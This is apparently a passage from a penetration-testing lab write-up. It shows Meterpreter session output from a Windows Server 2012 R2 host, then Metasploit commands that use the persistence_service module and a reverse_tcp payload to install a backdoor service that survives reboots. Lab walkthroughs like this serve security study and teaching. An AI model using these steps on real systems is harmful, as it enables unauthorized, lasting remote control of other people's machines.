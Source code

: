 ```bash
sysinfo
    Computer        : WIN-OMCNBKR66MN
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x64/windows

getuid
	Server username: WIN-OMCNBKR66MN\Administrator
```

### Persistence

❗ In order to set up persistence, administrative privileges are required.

```bash
background
search platform:windows persistence
use exploit/windows/local/persistence_service
info
# Description:
#   This Module will generate and upload an executable to a remote host, 
#   next will make it a persistent service. It will create a new service 
#   which will start the payload whenever the service is running. Admin 
#   or system privilege is required.
set payload windows/meterpreter/reverse_tcp
set SESSION 1
run
```

- Successfull maintained access. Once the persistent backdoor is installed, it's going to continue to run (across restarts) as a service and a multi handler listening to a connection will receive a connection from the service.

![Metasploit - exploit/windows/local/persistence_service](.gitbook/assets/image-20230419223324328.png)

```bash
exit

# Kill all sessions
sessions -K
sessions
	# No active sessions.
```
